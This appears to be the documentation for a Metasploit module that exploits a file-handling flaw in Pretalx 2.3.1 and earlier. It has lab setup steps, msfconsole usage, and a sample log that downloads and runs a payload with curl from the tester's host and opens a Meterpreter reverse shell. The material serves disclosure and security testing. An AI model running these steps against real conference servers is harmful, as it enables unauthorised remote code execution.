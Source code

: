 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. The module requires set of credentials of Pretalx user and Pretalx needs to have existing conference, where the attacker can submit malicious proposal.

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password - `sudo docker exec -it pretalx pretalx init`
1. Go to `orga/event/`
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/`
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pretalx_rce_cve_2023_28458`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set EMAIL [user email]`
1. Do: `set PASSWORD [password]`
1. Do: `set PYTHON_VERSION [running Python version - e.g. python3.8]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`
1. Wait for shell to be spawned by *cron* (or run Python3 as `pretalx` user)

## Options

### CONFERENCE_NAME

The slug (shortcut) name of the conference. The module requires existing conference, where an attacker can submit malicious proposal (e.g. conference-secret-2025)

### PYTHON_VERSION

The module needs to know running python version to be able to properly select a directory for malicious hook.

### EMAIL

Email of Pretalx user that can approve proposals and release schedule.

### PASSWORD

Password of Pretalx user that can approve proposals and release schedule.

## Scenarios
```
msf exploit(linux/http/pretalx_rce_cve_2023_28458) > run verbose=true 
[*] Command to run on remote host: curl -so ./SeHhGRHU http://192.168.168.128:8888/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./SeHhGRHU;./SeHhGRHU&
[*] Fetch handler listening on 192.168.168.128:8888
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1 and debug mode is enabled
[*] Registering malicious speaker and proposal
[*] Logging with credentials: martin_sutovsky@rapid7.com/kali
[*] Approving proposal
[*] Uploading resource with payload
[*] Inserts write primitve
[*] Adding proposal to schedule
[*] Releasing schedule
[*] Exporting schedule
[*] Waiting for cron to run Python under Pretalx user
[*] Client 192.168.168.146 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.146 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:48816) at 2025-08-22 15:15:28 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.4
OS           : Debian 11.2 (Linux 6.8.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: pretalxuser

```

